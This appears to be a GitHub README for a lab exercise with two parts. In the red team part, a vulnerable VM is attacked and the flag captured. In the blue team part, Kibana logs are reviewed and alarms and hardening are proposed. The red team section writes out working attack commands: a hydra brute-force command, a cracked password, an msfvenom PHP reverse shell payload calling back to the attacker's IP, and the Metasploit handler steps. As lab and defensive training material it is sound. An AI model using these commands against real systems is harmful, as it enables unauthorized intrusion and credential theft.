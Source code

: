 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

 # Red Team
- Ifconfig to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.
 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
- And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 

   ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is linux4u
    ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php

![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
 ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - Msfconsole -q
   - Use exploit/multi/handler
   - Set payload php/meterpreter/reverse_tcp 
      - (same payload script as the one we copied to the shared directory)
   - Set LHOST 192.168.1.90
      - Ip of machine we want to listen on 
   - Set LPORT 4444
      - Port we want to listen on
   - Show options 
      - To see if all the settings we had set are correct
   - Run
      - To execute the listening process
 
 ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
- Blocking the Port Scan
 - Alarm
   - An alert to be sent to the team for a 1000+ port connections within a hour
 - System Hardening 
   - To run multiple port scans to see what ports are being opened and if any are being used maliciously
   - To make sure Firewall is up to date and to diminish any connections to the host

- Finding the Request for the Hidden Directory
 - Alarm
   - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
   - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
 - System Hardening
   - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
   - To make a whitelist to people who can and cant use these files and directories

- Mitigation: Preventing Brute Force Attacks
 - Alarm
   - I would implement a failed login alert to show a certain amount of times the login has failed 
   - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
   - If there is more than 5 failed login attempts the alarm would be triggered
 - System Hardening
   - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
   - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

- Mitigation: Detecting the WebDav Connection
 - Alarm
   - An alert would be made to send the IP addresses trying to get access to webdav  
 - System Hardening
   - To whitelist certain IP addresses so only certain machines can access WebDav

- Mitigation: Identifying Reverse shell Uploads
 - Alarm
   - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
 - System Hardening
   - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
   - To whitelist IP addresses that can access the webdav folder 



